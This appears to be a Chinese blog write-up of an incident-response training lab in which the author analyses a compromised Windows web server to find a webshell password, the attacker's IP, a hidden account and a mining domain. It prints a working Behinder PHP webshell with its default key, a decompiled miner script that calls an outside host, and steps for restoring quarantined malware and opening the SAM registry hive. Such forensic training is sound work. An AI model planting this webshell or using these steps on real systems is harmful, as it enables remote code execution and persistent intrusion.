# 应急响应靶机训练--Web1


# 应急响应靶机训练--Web1

打开虚拟机报错



应该是 VMware 版本的问题，直接改 `Windows Server 2022.vmx`

找到：

```
virtualHW.version = "21"
```

改成：

```
virtualHW.version = "20"
```

然后就能正常启动了。

**题目描述：**

> 小李在值守的过程中，发现有CPU占用飙升，出于胆子小，就立刻将服务器关机，并找来正在吃苕皮的hxd帮他分析，这是他的服务器系统，请你找出以下内容，并作为通关条件：
>
> 1.攻击者的shell密码
>
> 2.攻击者的IP地址
>
> 3.攻击者的隐藏账户名称
>
> 4.攻击者挖矿程序的矿池域名(仅域名)
>
> 5.有实力的可以尝试着修复漏洞

**相关账户密码**

用户:administrator

密码:Zgsf@admin.com

## 1.攻击者的shell密码

思路：

先打开小皮，定位到网站根目录



然后使用 D 盾扫一下网站，发现已知后门



然后我去找这个文件的时候发现居然被 Defender 给杀了，然后就去恢复了一下

以管理员身份打开 PowerShell，执行：

```
# 查看隔离区中的威胁
Get-MpThreat
```

找到对应的威胁后执行还原：

```
# 还原所有被隔离的文件
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -Restore -Name "Trojan:Script/WebShell!MSR"
```

或者更直接暴力还原所有：

```
# 用 MpCmdRun 直接还原隔离区所有文件
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -Restore -All
```



然后就能看到 shell.php，很明显这是一个冰蝎的木马，并且 key 就是 `rebeyond`，可以计算一下 rebeyond 的32位md5值的前16位跟 $key 是否对的上。



```python
<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;
	session_write_close();
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>
```

flag：rebeyond

## 2.攻击者的IP地址

思路：

知道小皮用的事 Apache2.4.39，直接定位到日志目录 C:\phpstudy_pro\Extensions\Apache2.4.39，查看 access.log，直接搜索一下上传的 shell.php，然后就能定位到 ip 192.168.126.1



flag：192.168.126.1

## 3.攻击者的隐藏账户名称

思路：

先使用 `net user` 列出常规用户，然后再用 wmic 列出所有账户。进行对比一下，就能找到隐藏账户 hack168$

```python
# 常规列出用户（隐藏账户带$的可能不显示）
net user

# 用 wmic 列出所有账户（包括$结尾的隐藏账户）
wmic useraccount get name,SID
```



还可以查看注册表

```python
Get-ChildItem "HKLM:\SAM\SAM\Domains\Account\Users\Names"
```

但是会提示权限不足，直接打开 `regedit`​，手动导航到 `HKEY_LOCAL_MACHINE\SAM\SAM`，右键 → 权限 → 给 Administrators 加上完全控制





flag：hack168$

## 4.攻击者挖矿程序的矿池域名(仅域名)

思路：

在 C:\Users\hack168$\Desktop 发现一个 Kuang.exe 文件。发现是一个 python 打包的文件



先使用 pyinstxtractor 反编译一下



然后再反编一下 Kuang.pyc，就能看到可疑域名



```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'Kuang.py'
# Bytecode version: 3.8.0rc1+ (3413)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import multiprocessing
import requests
def cpu_intensive_task():
    # irreducible cflow, using cdg fallback
    # ***<module>.cpu_intensive_task: Failure: Different control flow
    try:
        requests.get('http://wakuang.zhigongshanfang.top', timeout=10)
    except:
        pass
if __name__ == '__main__':
    cpu_count = multiprocessing.cpu_count()
    processes = [multiprocessing.Process(target=cpu_intensive_task) for _ in range(cpu_count)]
    for process in processes:
        process.start()
    for process in processes:
        process.join()
```

flag：wakuang.zhigongshanfang.top

‍


---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94%E9%9D%B6%E6%9C%BA%E8%AE%AD%E7%BB%83-web1/  

